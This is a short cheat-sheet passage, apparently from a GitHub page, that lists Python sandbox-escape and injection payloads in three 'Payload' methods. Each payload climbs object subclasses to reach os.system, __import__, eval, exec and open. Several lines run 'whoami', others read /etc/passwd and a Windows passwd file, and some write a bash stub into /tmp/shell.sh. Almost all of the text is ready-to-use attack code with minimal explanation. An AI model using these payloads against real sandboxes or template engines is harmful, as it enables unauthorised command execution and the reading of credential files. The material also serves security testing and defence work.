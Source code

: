  - The first method `Payload`:

```python
''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()
''.__class__.__mro__[2].__subclasses__()[40]('/tmp/shell.sh', 'w').write('/bin/bash xxxx')
```

 - The second method `Payload`:

```python
# linecache utilization
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['os'].system('whoami')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['sys'].modules['os'].system('whoami')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['linecache'].__dict__['__builtins__']['__import__']('os').system('whoami')

# __builtins__utilization, including __import__, file, open, execfile, eval, compile combined with exec, etc.
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('E:/passwd').read()
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('E:/test.txt', 'w').write('hello')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['execfile']('E:/exp.py')
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')
exec(''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['compile']('__import__("os").system("whoami")', '<string>', 'exec'))

# sys utilization
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['sys'].modules['os'].system('whoami')

# types utilization, and later it is still used through __builtins__
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['types'].__dict__['__builtins__']['__import__']('os').system('whoami')

#os Utilization
''.__class__.__mro__[2].__subclasses__()[72].__init__.__globals__['os'].system('whoami')

# open utilization
''.__class__.__mro__[2].__subclasses__()[78].__init__.__globals__['open']('/etc/passwd').read()
''.__class__.__mro__[2].__subclasses__()[78].__init__.__globals__['open']('/tmp/shell.sh', 'w').write('/bin/bash xxxx')
```

 - The third method `Payload`:

```python
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__.values()[13]['eval']('__import__("os").system("whoami")')
# ...The others are similar to the ones above.
```

